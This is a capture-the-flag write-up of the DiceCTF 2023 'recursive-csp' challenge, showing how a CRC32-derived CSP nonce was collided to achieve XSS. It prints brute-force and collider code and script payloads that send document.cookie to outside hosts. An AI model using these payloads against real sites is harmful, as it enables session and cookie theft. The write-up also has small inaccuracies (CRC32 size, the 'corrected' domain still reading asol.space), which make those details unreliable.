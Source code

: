 ```yaml
---
title: Recursive-csp - DiceCTF 2023
date: 2023-02-07 22:10:35
author: Lu513n
author_url: https://twitter.com/Lu513n
categories:
  - Web
tags:
  - DiceCTF2023
---
```


**tl;dr**

+ craft a payload with a random nonce
+ use hash-collider to collide the nonce we gave earlier

<!--more-->

**Challenge Points**: 115
**No. of solves**: 178
**Solved by**: [Lu513n](https://twitter.com/Lu513n)

## Description

the nonce isn't random, so how hard could this be?

(the flag is in the admin bot's cookie)


## Solution

### Understanding the challenge

Here we get the source for `\?source` 

```php
<?php
  if (isset($_GET["source"])) highlight_file(__FILE__) && die();

  $name = "world";
  if (isset($_GET["name"]) && is_string($_GET["name"]) && strlen($_GET["name"]) < 128) {
    $name = $_GET["name"];
  }

  $nonce = hash("crc32b", $name);
  header("Content-Security-Policy: default-src 'none'; script-src 'nonce-$nonce' 'unsafe-inline'; base-uri 'none';");
?>
<!DOCTYPE html>
<html>
  <head>
    <title>recursive-csp</title>
  </head>
  <body>
    <h1>Hello, <?php echo $name ?>!</h1>
    <h3>Enter your name:</h3>
    <form method="GET">
      <input type="text" placeholder="name" name="name" />
      <input type="submit" />
    </form>
    <!-- /?source -->
  </body>
</html>
```

It's a simple XSS Challenge in PHP. The catch is that there is a [nonce](https://developer.mozilla.org/en-US/docs/Web/HTML/Global_attributes/nonce) that prevents us from getting XSS directly and the nonce is basically the [crc32](https://www.php.net/manual/en/function.crc32.php) hash of our payload. But our payload must contain the [nonce](https://developer.mozilla.org/en-US/docs/Web/HTML/Global_attributes/nonce)

Basically `We should have the crc32 hash of the WHOLE MESSAGE inside the MESSAGE`

### Trying the Bruteforce

For a while, we were trying to brute force the nonce, hoping it will be the same at least one time since the crc32 has only 8 bytes.

```php
<?php
for ($i = 0; $i <= 0xffffffff; $i++) {
  $x=sprintf("%08x", $i);
  $y='<script nonce="'.$x.'">window.location="https://webhook.site/a0a221c5-6a61-4ff6-a1f5-438ed5ce9403/?x="+document.cookie</script>';
  echo $y;

  $z=hash("crc32b", $y);

  if($z===$x){
    echo "found";
    exit();
  }

  echo "\n";
}
?>
```

But this never worked out :cry: 

We tried this so for so long and while it was running we searched for other ways.

### Trying the collider

So we searched for `crc32` collissions and got [this](https://github.com/fyxme/crc-32-hash-collider)

```go
func AddLetter(c chan string, combo string, alphabet string, length int) {
        // Check if we reached the length limit
        // If so, we just return without adding anything
        if length <= 0 {
                return
        }

        var newCombo string
        for _, ch := range alphabet {
                newCombo = combo + string(ch)
                c <- newCombo
                AddLetter(c, newCombo, alphabet, length-1)
        }
}

func worker(wChan chan string, target uint32) {
        for tString := range wChan {
                if crc32.ChecksumIEEE([]byte(tString)) == target {
                        fmt.Println("Collision found:", tString)
                }
        }
}
```

This is just a crc32 hash collider written in go. It will start with a String and append as many characters as `maxLen` would allow and try if the hash matches. So all that was left was for us to decide on a nonce and give its corresponding integer as the `target` in the code.

**Note: Here we had to use a domain as the payload can only contain 127 characters and if we use webhook url we won't have enough charcters left to bruteforce**

By running the code on 16 different laptops with 16 cores with 16 different nonces, we were able to collide it just in time.

```html
<script nonce="e6377dcb">window.location="http://asol.space?x="+document.cookie</script>000000000000000000000000000000000048io```

But we made one mistake in the domain to which the flag is sent. Where the domain was supposed to be `https://axol.space` I put `https://asol.space` :sob:

Now we had to put the correct domain and hash it again. This time it took even longer. It took so much time that we were just going to buy `https://asol.space`. But we collided that payload too and finally got the flag

```html
<script nonce="e6377dcb">window.location="http://asol.space?x="+document.cookie</script>0000000000hytza
```

**Flag**: `dice{h0pe_that_d1dnt_take_too_l0ng}`
